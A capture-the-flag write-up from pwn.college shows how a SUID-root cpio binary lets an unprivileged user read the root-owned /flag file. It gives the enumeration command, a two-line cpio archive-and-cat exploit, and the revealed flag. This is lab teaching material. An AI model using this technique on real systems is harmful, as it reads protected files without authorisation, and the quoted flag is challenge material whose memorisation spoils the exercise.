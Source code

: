 # Challenge Name: cpio
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/cpio`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/cpio
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/cpio
```

-The `s` in `-rws` indicates it's a SUID binary.
-`cpio` runs with **root privileges**.

## 🚀 Exploitation

The `cpio` command in Linux just copies the content of a file to make a special archive file with .cpio extension.

We can simply cat the .cpio file to read contents of /flag

```bash
echo "/flag" | cpio -o > myflag.cpio
cat myflag.cpio
```

Output:
```
�q�vhl�:/flagpwn.college{sX5JKqLxT27oZ-lRdm_fF-WnI0C.dRjNxwSM0IzMyEzW}
�q
```
here we can clearly see the flag.
      

